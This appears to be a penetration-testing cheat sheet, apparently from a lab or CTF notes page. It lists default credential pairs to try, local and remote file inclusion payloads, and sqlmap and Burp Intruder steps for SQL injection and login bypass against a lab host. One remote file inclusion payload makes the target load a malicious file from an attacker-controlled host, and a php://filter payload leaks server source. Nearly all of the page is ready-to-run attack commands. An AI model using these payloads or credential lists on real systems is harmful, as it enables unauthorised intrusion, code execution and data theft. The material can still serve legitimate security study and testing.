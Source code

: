 ```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://10.10.10.102/example.php?page=


# Bypass execution
http://10.10.10.102/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://10.10.10.102/page=http://192.168.1.101/maliciousfile.txt%00
http://10.10.10.102/page=http://192.168.1.101/maliciousfile.txt?
```


#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://10.10.10.102/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.10.10.102 --dbms=mysql --crawl=3
```

#### Sql-login-bypass


- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
